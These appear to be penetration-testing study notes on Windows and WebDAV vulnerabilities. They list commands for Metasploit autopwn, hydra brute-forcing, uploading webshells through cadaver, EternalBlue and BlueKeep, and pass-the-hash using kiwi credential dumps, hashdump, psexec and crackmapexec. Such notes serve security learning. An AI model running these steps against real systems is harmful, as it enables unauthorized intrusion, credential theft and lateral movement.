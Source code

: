 
# Vulnerability Assessment
**Windows vulnerabilities**
![[Pasted image 20250108234428.png]]

**Vulnerability scanning with MSF**
Manual check: Scan for services, search for exploits, check info for versions.
`searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"`
`metasploit-autopwn` plugin
- wget the plugin
- `load db_autopwn`
- `db_autopwn -p -t -PI 445`
`analyze` command

**WebDAV vulnerabilities**
`davtest` and `cadaver` tools
`nmap -sV -p80 --script=http-enum 1.1.1.1`
`hydra -L ... -P ... 1.1.1.1 http-get /webdav/`
`davtest -auth user:password -url http://1.1.1.1/webdav`
`cadaver http://1.1.1.1/webdav`
`ls -al /usr/share/webshells`
`put /usr/share/webshells...`
`dir` and `type`

### Vulnerability analysis
**EternalBlue exploit**
Microsoft SMBv1 servers
`AutoBlue-MS17-010` tool
`nc -nvlp 1234` netcat listener
`search eternalblue` in metasploit

**BlueKeep exploit**
Windows RDP protocol
`search BlueKeep`
`show targets`

**Pass-the-hash attacks**
Maintain persistence using hash even if service is patched
```
search badblue
pgrep lsass
load kiwi
lsa_dump_sam

hashdump
search psexec
set SMBPass <LM:NTLM>
set target Native\ upload

crackmapexec smb 1.1.1.1 -u Administrator -H "NTLM hash" - "ipconfig"
```
